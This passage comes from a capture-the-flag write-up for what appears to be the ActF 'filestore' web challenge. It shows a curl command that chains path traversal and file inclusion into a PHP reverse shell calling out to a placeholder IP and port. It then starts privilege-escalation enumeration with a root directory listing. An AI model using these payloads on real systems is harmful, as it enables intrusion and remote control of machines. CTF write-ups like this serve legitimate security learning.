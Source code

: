 Now that we know we can use file inclusion to access `/tmp/shell.php`{: .filepath}, we can use the following command to trigger the reverse shell:

```bash
curl "https://filestore.web.actf.co/?f=../../../../tmp/shell.php&cmd=php%20-r%20'$sock=fsockopen(%22%3CIP%3E%22,%3CPORT%3E);system(%22sh%20%3C&3%20%3E&3%202%3E&3%22);'"
```

After triggering the reverse shell, we can see that we have successfully gained access to the machine:


#### Privilege Escalation

Now we have a shell as the ctf user, but we need to escalate our privileges to the admin user. first, we need to enumerate the box, we could use tools like [linpeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) to automate this process, but since this is not focused on boot2root CTF we could just look for obvious things

And indeed if we `ls / -lah` we can find some interesting stuff in the root directory

```bash
drwxr-xr-x 1 root root 4.0K Apr 26 07:46 .
drwxr-xr-x 1 root root 4.0K Apr 26 07:46 ..
d-wx-wx--x 1 root root 20K Apr 30 00:59 abyss
drwxr-xr-x 1 root root 4.0K Apr 21 18:50 bin
drwxr-xr-x 2 root root 4.0K Dec 9 19:15 boot
drwxr-xr-x 5 root root 360 Apr 26 07:46 dev
drwxr-xr-x 1 root root 4.0K Apr 26 07:46 etc
-r--r----- 1 admin admin 38 Apr 21 06:05 flag.txt
drwxr-xr-x 2 root root 4.0K Dec 9 19:15 home
drwxr-xr-x 1 root root 4.0K Apr 12 03:31 lib
drwxr-xr-x 2 root root 4.0K Apr 11 00:00 lib64 
---x--s--x 1 admin admin 894K Apr 21 08:15 list_uploads
---x--s--x 1 root root 17K Apr 21 18:11 make_abyss_entry 
drwxr-xr-x 2 root root 4.0K Apr 11 00:00 media
drwxr-xr-x 2 root root 4.0K Apr 11 00:00 mnt
drwxr-xr-x 2 root root 4.0K Apr 11 00:00 opt
dr-xr-xr-x 381 root root 0 Apr 26 07:46 proc
drwx------ 1 root root 4.0K Apr 14 18:16 root
drwxr-xr-x 1 root root 4.0K Apr 12 03:34 run 
drwxr-xr-x 1 root root 4.0K Apr 12 03:34 sbin
drwxr-xr-x 2 root root 4.0K Apr 11 00:00 srv
dr-xr-xr-x 13 root root 0 Apr 22 20:03 sys 
drwxrwxrwt 1 root root 4.0K Apr 30 00:13 tmp
drwxr-xr-x 1 root root 4.0K Apr 11 00:00 usr 
drwxr-xr-x 1 root root 4.0K Apr 12 03:31 var
drwxr-xr-x 1 root root 4.0K Apr 12 03:31 var

```
Sure there are some interesting files here!

The first file is the `flag.txt` but looking at its permission it is only readable by admin

The second one is `make_abyss_entry`, binary, this creates a folder in `/abyss/`{: .filepath} so we can write files without other players from the CTF reading or interfering with them
